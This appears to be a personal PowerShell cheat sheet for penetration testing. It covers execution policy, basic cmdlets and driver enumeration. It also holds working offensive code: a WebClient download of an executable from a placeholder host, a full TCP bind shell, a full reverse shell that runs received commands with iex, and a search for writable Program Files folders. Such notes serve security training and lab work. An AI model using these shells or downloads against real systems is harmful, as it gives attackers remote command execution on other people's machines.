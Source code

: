 
[PowerShell](https://docs.microsoft.com/en-us/powershell/) 5.0 runs on the following versions of Windows:  
• Windows Server 2016, installed by default  
• Windows Server 2012 R2/Windows Server 2012/Windows Server 2008 R2 with Service Pack 1/Windows 8.1/Windows 7 with Service Pack 1 (install Windows Management Framework 5.0 to run it)  
  
PowerShell 4.0 runs on the following versions of Windows:  
• Windows 8.1/Windows Server 2012 R2, installed by default  
• Windows 7 with Service Pack 1/Windows Server 2008 R2 with Service Pack 1 (install Windows Management Framework 4.0 to run it)  
  
PowerShell 3.0 runs on the following versions of Windows:  
• Windows 8/Windows Server 2012, installed by default  
• Windows 7 with Service Pack 1/Windows Server 2008 R2 with Service Pack 1/2 (install Windows Management Framework 3.0 to run it)  

  
[https://github.com/darkoperator/powershell_scripts/blob/master/ps_encoder.py](https://github.com/darkoperator/powershell_scripts/blob/master/ps_encoder.py)  
  
The default policy is “Restricted”, which effectively means the system will neither load PowerShell configuration files nor run PowerShell scripts  
  
## To set an Unrestricted policy:  
• Run PowerShell as an Administrator  
• **Set-ExecutionPolicy Unrestricted**  
  
Verify with **Get-ExecutionPolicy**   
  
**-c** - Execute given command (wrapped in double-quotes)  
**new-object** - Cmdlet that allows instantiation of either a .NET framework or COM object  
**iex** - Cmdlet that evaluates or runs a specified string as a command and returns the results of the expression or command  
  

## File transfer:
```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://ip address/wget.exe','C:\Users\*****\Desktop\wget.exe')"  
wget.exe -V
```
- **WebClient** class, which is defined and implemented in the [System.Net](https://docs.microsoft.com/en-us/dotnet/api/system.net?view=netframework-4.7.2) namespace.  
	- The **WebClient** class is used to access resources identified by a URI and it exposes a public method called **DownloadFile**  
- **DownloadFile** requires two key parameters: a source location (in the form of a URI as we previously stated), and a target location where the retrieved data will be stored.

## Bind Shell:
Use **-n** when connecting w/ [netcat](Tools.md#netcat) as bind shell may not always present command prompt on initial connection.
```powershell
$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);  
$listener.start();  
$client = $listener.AcceptTcpClient();  
$stream = $client.GetStream();  
[byte[]]$bytes = 0..65535|%{0};  
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)  
{  
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);  
    $sendback = (iex $data 2>&1 | Out-String );  
    $sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';  
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);  
    $stream.Write($sendbyte,0,$sendbyte.Length);  
    $stream.Flush()  
}  
$client.Close();  
$listener.Stop();
```

## Reverse Shells:
```powershell
$client = New-Object System.Net.Sockets.TCPClient('ip address',port);   
$stream = $client.GetStream();   
[byte[]]$bytes = 0..65535|%{0};   
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)   
{   
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);   
    $sendback = (iex $data 2>&1 | Out-String );   
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';   
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);   
    $stream.Write($sendbyte,0,$sendbyte.Length);   
    $stream.Flush();   
}   
$client.Close();
```


## Find RW files & directories (here w/in the Program Files dir):  
```powershell
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```


## List drivers:  
```powershell
driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object ‘Display Name’, ‘Start Mode’, Path
```


## Find driver version:
```powershell
Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}
```


## Cmdlets:

**Get-EventLog** - Query Windows Events/ Log parser
	**-LogName** - Name of log to retrieve
	**|** - Can pip for more detailed info
		Ex:
 ```powershell
Get-EventLog -LogName <log> | Format-List -Property * ; | Format-List -Property EventId, Message
```

**Get-Content** - Similar to cat
**Get-ChildItem** - Gets items in one or more specified locations
**Set-Content** -Used to create content and ADS streams
	Ex:
```powershell
Set-Content -Path <.\file.ext> -Stream <ads.ext>
```